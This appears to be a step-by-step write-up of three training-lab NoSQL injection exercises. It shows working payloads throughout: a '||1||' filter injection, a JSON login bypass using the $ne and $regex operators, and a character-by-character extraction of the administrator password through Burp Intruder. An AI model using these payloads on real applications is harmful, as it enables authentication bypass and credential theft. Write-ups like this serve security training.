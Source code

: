 **Step1:**

Click on any categories

**Step2:**

Send the GET filter request to repeater

**Step3:**

Check the injection point using '

Now we use \'

So it is clear that NoSQL vulnerability exist

**Step4:**

Now we inject this payload to view all product '||1||'

And lab is solved

**Step1:**

Login in to your account using wiener:peter

Send the request to POST /login to repeater

**Step2:**

If we use  this payload it show id wiener in response. it is clear that password is not checking
```
{ "username": "wiener",

"password":{

"$ne":""

  }

}
```

**Step3:**

If we replace the above word with admin or administrator it is not showing any redirection

**Step4:**

To find username we using regex with the search that any username having adm in his name
```
{ "username": { "$regex": ".*adm.*" }, "password":{

"$ne":""

  }

}
```

**Step5:**

Now replace name with the response name and modify rquery to

```
{ "username": "adminhcijsjg3", "password":{

"$ne":""

  }

}
```

And open the request in browser it will solve.

Or paste session in inspect -> cookie value and refresh page and click on my-account button.

**Step1:**

First login with given credential

**Step2:**

Send the GET /user/lookup request to  repeater

**Step3:**

When I use ' ' it show error

If we use url encoded `'%2b'`

**Step4:**

Now we find password for administrator user

`administrator' && this.password.length < 30 || '1'=='2`

The result show password is less then 30

After some try I found password is 7 character.

This can be found using number payload in intruder

**Step4:**

To extract password we use

`administrator' && this.password[§0§]=='§a§`

Send the above request to intruder

Attack type: cluster bomb

Payload1 setting

Payload2 setting

**Step5**  
to find password first sord payload1 then sort length

We have password

Knzddwlw
